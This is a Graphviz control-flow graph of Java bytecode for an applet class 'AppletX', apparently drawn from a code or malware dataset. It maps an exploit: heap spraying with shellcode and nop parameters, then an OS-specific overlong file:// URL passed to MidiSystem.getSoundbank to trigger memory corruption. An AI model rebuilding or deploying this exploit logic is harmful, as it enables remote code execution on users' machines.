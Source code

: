 digraph "" {
    "r0 := @this: AppletX"
    "push 47"
    "r0 := @this: AppletX"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <AppletX: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <AppletX: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <AppletX: java.lang.String repeat(char,int)>"->"pop";
    "push \"os.name\""
    "pop"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "store.r r1"
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "push \"win\""
    "load.r r1"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r1"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r1";
    "iflt load.r r1"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <AppletX: java.lang.String repeat(char,int)>";
    "staticinvoke <AppletX: java.lang.String repeat(char,int)>"->"store.r r1";
    "goto new java.lang.StringBuffer"
    "store.r r1"->"goto new java.lang.StringBuffer";
    "new java.lang.StringBuffer"
    "goto new java.lang.StringBuffer"->"new java.lang.StringBuffer";
    "dup1.r"
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "push \"file://\""
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"file://\"";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "push \"file://\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"Z%Z%Z%Z%Z%Z%\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"Z%Z%Z%Z%Z%Z%\"";
    "push \"Z%Z%Z%Z%Z%Z%\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r1";
    "load.r r0"
    "store.r r1"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"sc\""
    "load.r r0"->"push \"sc\"";
    "virtualinvoke <AppletX: java.lang.String getParameter(java.lang.String)>"
    "push \"sc\""->"virtualinvoke <AppletX: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <AppletX: java.lang.String getParameter(java.lang.String)>"->"load.r r0";
    "push \"np\""
    "load.r r0"->"push \"np\"";
    "push \"np\""->"virtualinvoke <AppletX: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <AppletX: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"
    "virtualinvoke <AppletX: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <AppletX: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "fieldput <AppletX: java.nio.IntBuffer[] mem>"
    "virtualinvoke <AppletX: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <AppletX: java.nio.IntBuffer[] mem>";
    "new java.net.URL"
    "fieldput <AppletX: java.nio.IntBuffer[] mem>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r1";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r1"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "store.r r0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "return"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"->"return";
    "iflt load.r r1"->"load.r r1";
    "push \"mac\""
    "load.r r1"->"push \"mac\"";
    "push \"mac\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r1";
    "iflt load.r r1"->"push 47";
    "push 1080"
    "push 47"->"push 1080";
    "push 1080"->"staticinvoke <AppletX: java.lang.String repeat(char,int)>";
    "staticinvoke <AppletX: java.lang.String repeat(char,int)>"->"store.r r1";
    "store.r r1"->"goto new java.lang.StringBuffer";
    "iflt load.r r1"->"load.r r1";
    "push \"nix\""
    "load.r r1"->"push \"nix\"";
    "push \"nix\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge push 47"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge push 47";
    "ifge push 47"->"load.r r1";
    "push \"nux\""
    "load.r r1"->"push \"nux\"";
    "push \"nux\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 1337"
    "push 47"->"push 1337";
    "push 1337"->"staticinvoke <AppletX: java.lang.String repeat(char,int)>";
    "staticinvoke <AppletX: java.lang.String repeat(char,int)>"->"store.r r1";
    "store.r r1"->"goto new java.lang.StringBuffer";
    "iflt return"->"return";
}
